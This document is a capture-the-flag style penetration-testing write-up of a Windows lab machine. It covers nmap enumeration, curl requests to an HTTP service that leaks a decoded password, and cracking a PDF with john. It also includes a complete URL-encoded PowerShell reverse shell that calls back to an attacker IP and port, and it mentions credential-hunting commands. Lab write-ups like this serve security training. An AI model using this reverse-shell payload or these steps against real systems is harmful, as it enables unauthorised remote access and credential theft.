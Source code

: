 #Pwned! 
```IP
192.168.242.99
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.242.99 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 125 FileZilla ftpd
| ftp-syst:                      
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           syn-ack ttl 125 OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey:                 
|   3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDYR4Bx82VWETlsjIFs21j6lZ6/S40jMJvuXF+ay4Qz4b+ws2YobB5h0+IrHdr3epMNFmSY8JXFWzIILhkvF/rmadXRtGwib1VZkSa3nr5oYdMajoWK0jOVSoFJmDTJvhj+T3XE7+Q0tEkQ2EeGPrz7nK5XWzBp8SZdywCE/iz1HLvUIlsOqpDWHSjrnjkUaaleT
goVTEi63Dx4inY2KS5mX2mnS/mLzMlLZ0qj8vL9gz6ZJgf7LMNhXb/pWOtxfn6zmSoVHXEXgubXwLtrn4wOIvbZkm5/uEx+eFzx1AOEQ2LjaKItEqLlP3E5sdutVP6yymDTGBtlXgfvtfGS2lgZiitorAXjjND6Sqcppp5lQJk2XSBJC58U0SzjXdyflJwsus5mnKnX79nKxXPNPwM6Z3Ki1O9vE+KsJ1dZJuaTINVg
LqrgwJ7BCkI2HyojfqzjHs4FlYVHnukjqunG90OMyAASSR0oEnUTPqFmrtL/loEc3h44GT+8m9JS1LgdExU= 
|   256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)      
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDJYE805huwKUl0fJM8+N9Mk7GUQeEEc5iA/yYqgxE7Bwgz4h5xufRONkR6bWxcxu8/AHslwkkDkjRKNdr4uFzY=
|   256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL8cLYuHBTVFfYPb/YzUIyT39bUzA/sPDFEC/xChZyZ4
80/tcp    open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods:                                                                                                      
|_  Supported Methods: GET
|_http-title: Site doesn't have a title.
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 125
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services5040/tcp  open  unknown       syn-ack ttl 125
7680/tcp  open  pando-pub?    syn-ack ttl 125
8089/tcp  open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-favicon: Unknown favicon MD5: 9D1EAD73E678FA2F51A70A933B0BF017
| http-methods:
|_  Supported Methods: GET
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
33333/tcp open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods:                         
|_  Supported Methods: GET POST
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-favicon: Unknown favicon MD5: 76C5844B4ABE20F72AA23CBE15B2494E    
49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## FTP
FileZilla Server 0.9.60 beta
brute not working
## SMB
guest and blank not working
## RPC
blank nothing
## SNMP
snmpwalk nothing
## HTTP 80
doesnt work apparently

## HTTP 8089
ffuf big.txt nothing

## HTTP 33333
ffuf big.txt nothing
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241209164529.png?raw=true)

# Exploitation

http 8089 request/response
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241209165628.png?raw=true)

IP harcoded. Lets try the same request with target IP
```
curl -i 192.168.164.99:33333/list-running-procs -v
```
```
curl -i 192.168.164.99:33333/list-running-procs -v -X POST
```
```
curl -i 192.168.164.99:33333/list-running-procs -v -X POST -H 'Content-Length: 0'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210094000.png?raw=true)

```
echo 'Tm93aXNlU2xvb3BUaGVvcnkxMzkK' | base64 -d
```
```
NowiseSloopTheory139
```
```
ariah
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210094421.png?raw=true)
# PrivEsc

## Manual
C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml
cmdkey /list
%SystemRoot%\system32\shell32.dll

we see a ftp directory in / so we get via FTP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101346.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101359.png?raw=true)
```
pdf2john Infrastructure.pdf > pdf.hash
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt pdf.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101956.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210101942.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210103111.png?raw=true)
We now execute a reverse shell:
```
{% raw %}
http://192.168.164.99/?$LHOST%20=%20%22192.168.45.189%22;%20$LPORT%20=%209001;%20$TCPClient%20=%20New-Object%20Net.Sockets.TCPClient($LHOST,%20$LPORT);%20$NetworkStream%20=%20$TCPClient.GetStream();%20$StreamReader%20=%20New-Object%20IO.StreamReader($NetworkStream);%20$StreamWriter%20=%20New-Object%20IO.StreamWriter($NetworkStream);%20$StreamWriter.AutoFlush%20=%20$true;%20$Buffer%20=%20New-Object%20System.Byte[]%201024;%20while%20($TCPClient.Connected)%20{%20while%20($NetworkStream.DataAvailable)%20{%20$RawData%20=%20$NetworkStream.Read($Buffer,%200,%20$Buffer.Length);%20$Code%20=%20([text.encoding]::UTF8).GetString($Buffer,%200,%20$RawData%20-1)%20};%20if%20($TCPClient.Connected%20-and%20$Code.Length%20-gt%201)%20{%20$Output%20=%20try%20{%20Invoke-Expression%20($Code)%202%3E&1%20}%20catch%20{%20$_%20};%20$StreamWriter.Write(%22$Output`n%22);%20$Code%20=%20$null%20}%20};%20$TCPClient.Close();%20$NetworkStream.Close();%20$StreamReader.Close();%20$StreamWriter.Close()
{% endraw %}
```


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210104644.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

